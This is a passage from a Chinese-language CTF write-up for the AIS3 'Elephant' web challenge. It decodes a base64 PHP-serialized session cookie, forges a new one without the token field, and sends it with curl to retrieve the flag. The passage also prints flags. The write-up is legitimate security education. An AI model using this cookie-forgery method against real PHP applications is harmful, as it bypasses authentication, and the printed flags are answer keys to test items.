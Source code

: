 ``` plaintext
AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}
```

### Elephant

https://elephant.ais3.org/

登入之後可以看到 cookie

``` plaintext
elephant_user=Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NDoicm9vdCI7czoxMToiAFVzZXIAdG9rZW4iO3M6MzI6ImI2ZjUxYWE0Yjg1NjdjZjFjZTI0YWM0YzU0OWJlNjRlIjt9;
```

解碼看到 php 序列化的特徵

``` plaintext
O:4:"User":2:{s:4:"name";s:4:"root";s:11:"Usertoken";s:32:"b6f51aa4b8567cf1ce24ac4c549be64e";}
```

先還原並且看到原始 class 中的成員

``` php
<?php
var_dump(base64_decode ( "Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MTE6IgBVc2VyAHRva2VuIjtzOjMyOiIwMDFiZmYzNmFiZjFmMTgzMWNhOWNmNjQyYjNkZjMwNCI7fQ%3D%3D" ));
echo var_dump(unserialize(base64_decode ( "Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MTE6IgBVc2VyAHRva2VuIjtzOjMyOiIwMDFiZmYzNmFiZjFmMTgzMWNhOWNmNjQyYjNkZjMwNCI7fQ%3D%3D" )));
```

構造新 cookie ，去除掉 token 之後即可使用

``` php
<?php
class User{
  public $name = '';
  // private $token='';
}

$h = new User();
echo 'elephant_user=' . base64_encode(serialize($h));
```

透過使用此 cooke 來得到 flag

``` bash
curl https://elephant.ais3.org/ --cookie "elephant_user=Tzo0OiJVc2VyIjoxOntzOjQ6Im5hbWUiO3M6MDoiIjt9"
```

hm.. 這裡就可以解出來有點意外，應該還缺乏一些反序列化需要的條件，比方說要知道程式碼運作以及觸發一些東西等。

``` plaintext
AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}
```

參考

- [php反序列化由浅到深](https://xi4or0uji.github.io/2019/06/27/php反序列化由浅到深/)
- https://www.jianshu.com/p/631606cc5b76
